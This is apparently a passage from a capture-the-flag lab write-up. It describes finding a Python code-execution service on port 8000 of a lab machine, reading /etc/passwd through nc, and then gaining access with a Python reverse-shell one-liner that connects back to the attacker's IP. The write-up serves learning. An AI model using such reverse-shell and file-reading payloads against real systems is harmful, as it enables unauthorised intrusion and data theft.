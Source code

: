 ```shell
SF:20null\x20bytes\n");  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting port `8000` I see this:
```shell
http -v http://10.10.154.107:8000/  
GET / HTTP/1.1  
Accept: */*  
Accept-Encoding: gzip, deflate  
Connection: keep-alive  
Host: 10.10.154.107:8000  
User-Agent: HTTPie/3.2.2  

HTTP/1.0 200 OK  
Content-Length: 27  
Content-type: text/html; charset=utf-8  
Date: Wed Sep 24 00:06:51  2025  
Server: SimpleHTTP/0.6 Python/3.11.2  

Try a more basic connection
```

I find when connecting to port `8000` with `nc` I can execute python:
```shell
nc 10.10.154.107 8000  
print(open('/etc/passwd').read())  
root:x:0:0:root:/root:/bin/bash  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
bin:x:2:2:bin:/bin:/usr/sbin/nologin  
sys:x:3:3:sys:/dev:/usr/sbin/nologin  
sync:x:4:65534:sync:/bin:/bin/sync  
games:x:5:60:games:/usr/games:/usr/sbin/nologin  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin  
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin  
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin  
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin  
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin  
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin  
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin  
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin  
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin  
...
```

After some time I find a payload which gets me reverse shell:
```shell
nc 10.10.154.107 8000  
import socket,subprocess,os;s=socket.socket();s.connect(('10.13.66.123',1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(['/bin/sh','-i'])
```
